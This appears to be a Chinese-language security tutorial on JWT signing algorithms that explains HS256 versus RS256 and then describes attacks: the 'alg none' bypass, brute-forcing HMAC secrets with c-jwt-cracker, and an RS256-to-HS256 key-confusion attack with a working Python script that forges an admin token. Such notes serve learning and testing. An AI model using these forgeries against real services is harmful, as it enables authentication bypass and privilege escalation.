

# jwt的签名算法

JWT签名算法中，一般有两个选择，一个采用HS256,另外一个就是采用RS256。
签名实际上是一个加密的过程，生成一段标识（也是JWT的一部分）作为接收方验证信息是否被篡改的依据。

RS256 (采用SHA-256 的 RSA 签名) 是一种非对称算法, 它使用公共/私钥对: 标识提供方采用私钥生成签名, JWT 的使用方获取公钥以验证签名。由于公钥 (与私钥相比) 不需要保护, 因此大多数标识提供方使其易于使用方获取和使用 (通常通过一个元数据URL)。
另一方面, HS256 (带有 SHA-256 的 HMAC 是一种对称算法, 双方之间仅共享一个 密钥。由于使用相同的密钥生成签名和验证签名, 因此必须注意确保密钥不被泄密。

在开发应用的时候启用JWT，使用RS256更加安全，你可以控制谁能使用什么类型的密钥。另外，如果你无法控制客户端，无法做到密钥的完全保密，RS256会是个更佳的选择，JWT的使用方只需要知道公钥。

由于公钥通常可以从元数据URL节点获得，因此可以对客户端进行进行编程以自动检索公钥。如果采用这种方式，从服务器上直接下载公钥信息，可以有效的减少配置信息。

# 直接修改签名算法为none



然后分别base64下header与payload，构造为

```
base64_header.base64_payload.  （注意最后有个点）
```

格式的字符串发送给服务器

# 对于对称加密的jwt 可以使用工具进行破解

工具:c-jwt-cracker

下载地址：https://github.com/brendan-rius/c-jwt-cracker

# 修改签名算法

有些JWT库支持多种密码算法进行签名、验签。若目标使用非对称密码算法时，有时攻击者可以获取到公钥，此时可通过修改JWT头部的签名算法，将非对称密码算法改为对称密码算法，从而达到攻击者目的。


jwt生成代码

```python
# coding=GBK
import hmac
import hashlib
import base64

file = open('publickey.pem')    #需要将文中的publickey下载	与脚本同目录
key = file.read()

# Paste your header and payload here
header = '{"typ": "JWT", "alg": "HS256"}'
payload = '{"username": "admin", "role": "admin"}'

# Creating encoded header
encodeHBytes = base64.urlsafe_b64encode(header.encode("utf-8"))
encodeHeader = str(encodeHBytes, "utf-8").rstrip("=")

# Creating encoded payload
encodePBytes = base64.urlsafe_b64encode(payload.encode("utf-8"))
encodePayload = str(encodePBytes, "utf-8").rstrip("=")

# Concatenating header and payload
token = (encodeHeader + "." + encodePayload)

# Creating signature
sig = base64.urlsafe_b64encode(hmac.new(bytes(key, "UTF-8"), token.encode("utf-8"), hashlib.sha256).digest()).decode("UTF-8").rstrip("=")

print(token + "." + sig)
```

# 资料

JWT详解

https://baobao555.tech/archives/40

想全面理解JWT？一文足矣！

https://zhuanlan.zhihu.com/p/70275218

JSON Web Token 入门教程

https://www.ruanyifeng.com/blog/2018/07/json_web_token-tutorial.html